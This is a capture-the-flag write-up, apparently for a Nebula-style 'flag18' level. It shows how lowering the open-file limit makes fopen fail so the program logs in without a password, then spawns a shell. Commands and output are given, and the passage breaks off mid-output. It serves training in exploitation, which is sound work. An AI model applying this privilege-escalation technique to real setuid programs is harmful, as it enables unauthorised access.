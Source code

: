 First thing that we tried was to use parameter `-d /home/flag18/password` to
rewrite password file with the known output, however the `strcmp()` doesn't match
for the reason that we cannot insert the newline character to the end of our string.

The `fclose()` on line 34 is not aligned, that's strange. We found out that this call is not used in the binary file:

```
sh-4.2$ gdb -batch -ex 'file /home/flag18/flag18' -ex 'set disassembly-flavor intel' -ex 'disassemble login' | grep close
sh-4.2$ 
```

We can use login function to exhaust file descriptors, because when the `fopen()` fails, we will be logged in. After a few tries:

```
sh-4.2$ help ulimit
[..snip..] 
      -n        the maximum number of open file descriptors
[..snip..] 

sh-4.2$ ulimit -n 8

sh-4.2$ /home/flag18/flag18 -d /dev/tty -vvv
Starting up. Verbose level = 3
login
got [login] as input
attempting to login
login
got [login] as input
attempting to login
login
got [login] as input
attempting to login
login
got [login] as input
attempting to login
login
got [login] as input
attempting to login
logged in successfully (without password file)
closelog
got [closelog] as input
shell
/home/flag18/flag18: -d: invalid option
Usage:  /home/flag18/flag18 [GNU long option] [option] ...
        /home/flag18/flag18 [GNU long option] [option] script-file ...
GNU long options:
        --debug
        --debugger
        --dump-po-strings
        --dump-strings
        --help
        --init-file
        --login
        --noediting
        --noprofile
        --norc
        --posix
        --protected
        --rcfile
        --restricted
        --verbose
        --version
Shell options:
```